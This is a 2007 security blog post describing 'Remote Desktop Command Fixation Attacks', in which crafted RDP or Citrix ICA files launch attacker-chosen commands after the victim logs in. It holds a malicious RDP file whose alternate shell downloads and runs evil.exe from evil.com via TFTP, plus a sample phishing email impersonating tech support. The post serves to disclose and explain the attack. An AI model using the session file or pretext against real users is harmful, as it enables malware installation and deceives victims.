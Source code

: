 ```yaml
---
title: Remote Desktop Command Fixation Attacks
author: pdp
date: Wed, 10 Oct 2007 11:00:42 GMT
template: post.pug
---
```


The attack is rather simple. All the attacker needs to do is to compose a malicious RDP (for Windows Terminal Services) or ICA (for CITRIX) file and send it to the victim. The victim is persuaded to open the file by double clicking on it. When the connection is established, the user will enter their credentials to login and as such let the attacker in.

Both, RDP and ICA, contain information not only about what servers to connect to but also what applications to launch after successful authentication. These parameters can be modified to suit the attacker needs. In CITRIX we can specify the default shell command by using the parameter **Application** (i.e `Application=calc.exe`). In Windows Remote Desktop we can do exactly the same with the **alternate shell** (i.e `alternate shell:s:cmd.exe`) directive. Here follows a sample ICA file:

    [WFClient]
    Version=1

    [ApplicationServers]
    Connection To Citrix Server=

    [Connection To Citrix Server]
    InitialProgram=**some command here**
    Address=_172.16.3.191_

    ScreenPercent=0

    In Windows Terminal Services, the same can be achieved with the following example:

    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**some command here**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

    This is all that the attacker needs to know. Let's have a step-by-step look at the attack structure, shall we:

1.  **Compose a malicious Remote Desktop session file:**
    The following example instructs TFTP to connect to **evil.com** and retrieve a file called **evil.exe**. Once the download is completed, the attacker executes **evil.exe** and subsequently terminates the session:
    screen mode id:i:1
    desktopwidth:i:800
    desktopheight:i:600
    session bpp:i:16
    full address:s:_172.16.3.191_
    compression:i:1
    keyboardhook:i:2
    alternate shell:s:**cmd.exe /C "tftp -i evil.com GET evil.exe evil.exe & evil.exe"**
    shell working directory:s:_C:\_
    bitmapcachepersistenable:i:1

2.  **Send email to the victim:**
Here the attacker uses his social engineering skills to persuade the victim into opening and authenticating the session file. This is how it is done:
> Hello John,
> 
>     This is Tim from Tech Department. I was informed that you have some problems with your remote desktop connectivity. I've attached a modified RDP file you can tryout and see if it works. Just double click on the file and login. Your domain credentials should work. Let me know if you have any problems.
> 
>     Tim O'Brian
> Tech Department
3.  **Own it:**
The attacker notices a new entry in his TFTP log files. The operation was successful. Now he can take full advantage of his brand new asset. "Simple tricks always work."

_This is it. This is what I would like to refer to as "Remote Desktop Command Fixation Attacks". They are simple, highly affective, unknown to system administrators (as of yet), and pretty vicious. Keep in mind that the same procedure apply to CITIRX as well._
